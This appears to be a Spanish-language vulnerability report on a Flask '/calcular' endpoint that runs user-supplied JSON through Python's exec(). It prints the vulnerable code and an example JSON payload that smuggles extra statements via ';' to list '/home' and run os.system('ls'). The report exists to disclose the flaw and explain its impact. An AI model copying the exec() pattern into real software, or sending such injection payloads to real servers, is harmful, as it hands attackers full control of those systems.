 
## Vulnerabilidad de ejecución de código arbitrarío en `/calcular` con `exec()`

### Descripción
El código en el endpoint `/calcular` permite a los usuarios enviar un JSON con claves que contienen expresiones matemáticas o código Python para ser ejecutado. Esto se hace a través de la función `exec()` de Python, que ejecuta código arbitrario dentro del contexto del servidor.

#### Código vulnerable:

```python
@app.route('/calcular', methods=['POST'])
def calcular():
    if not request.is_json:
        abort(HTTPStatus.BAD_REQUEST)
        
    try:
        calculos_realizar:dict = request.json
        context = {}
        # realiza las cuentas enviadas en el JSON
        for key, value in request.json.items():
            # Vulnerabilidad aquí
            exec(f'{key} = {value}', context)  
        
        # actualiza el contenido del JSON con el resultado de las expresiones
        for key in calculos_realizar:
            calculos_realizar[key] = context[key]

    except Exception as e:
        error_res = f"Excepción de ejecución del mensaje: {e}"
        app.logger.error(error_res)
        return Response(error_res, HTTPStatus.BAD_REQUEST)
    
    res = f"cuentas realizadas:\n{calculos_realizar}"
    app.logger.info(res)
    
    return Response(res, HTTPStatus.OK)
```
#### Ejemplo de ejecución maliciosa.

Usando el conocimiento de como funciona la vulnerabilidad, podemos usar `;` para
Seguir enviando instrucciones para ejecutar nuestro código arbitrario.
```json
    {
        "calculo1": "10 + 30",
        "directorios_en_home": "10;import os; directorios_en_home=os.listdir('/home')",
        "intento_de_ls": "__import__('os').system('ls')"
    }
```
#### Impacto
Maxima o critica, no existe una vulnerabilidad más grave para un sistema que la ejecución arbitraría de código.
Un atacante con conocimiento podría levantar puertos, borrar archivos, leer información, crear usuarios, cambiar configuraciones, ect.
En este caso, si bien usamos una simple muestra de impresión de contenido de directorios se debe tener en cuenta que esta vulnerabilidad da control total al atacante del servidor.
Jamas, nunca, bajo NINGUN CONCEPTO, se debe permitir la ejecución de código a personal no autorizado con o sin conocimiento técnico dentro del servidor.
